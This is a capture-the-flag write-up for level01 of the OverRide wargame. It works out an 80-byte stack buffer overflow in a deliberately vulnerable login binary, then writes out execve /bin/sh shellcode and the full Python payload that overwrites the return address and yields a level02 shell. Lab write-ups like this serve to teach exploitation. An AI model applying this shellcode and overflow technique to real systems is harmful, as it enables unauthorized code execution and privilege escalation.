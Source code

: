 The password buffer starts at `0xffffd5dc` and the return address of main is located at `0xffffd62c`, giving us a padding of `80 bytes (0xffffd62c - 0xffffd5dc)`. [hex calculator](https://www.calculator.net/hex-calculator.html?number1=ffffd62c&c2op=-&number2=ffffd5dc&calctype=op&x=Calculate)

Let's try it:
```
(gdb) r < <(python -c 'print "dat_wil\n" + "A"*80 + "B"*4')
...
0x42424242 in ?? ()
```

With that's confirmed, we inject a shellcode in the first 21 bytes of the buffer and replace the overwritten return address `BBBB` with the shellcode’s start address: `0xffffd5dc`. </br>
shellcode: `\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

```
(gdb) r < <(python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*(80-21) + "\xdc\xd5\xff\xff"')
...
process 2216 is executing new program: /bin/dash
```

The shellcode is executed in GDB. 

### Payload construction 

First we write the shellcode at the beginning of the buffer 
```
python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'
```

Then we add the padding correctly up to the return address
```
python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*(80-21) + "ret_address_main"
```

Finally after fuzzed nearby addresses, we found `0xffffd5ec`:
```
python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*(80-21) + "\xec\xd5\xff\xff"'
```

### Demonstration 

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*(80-21) + "\xec\xd5\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```
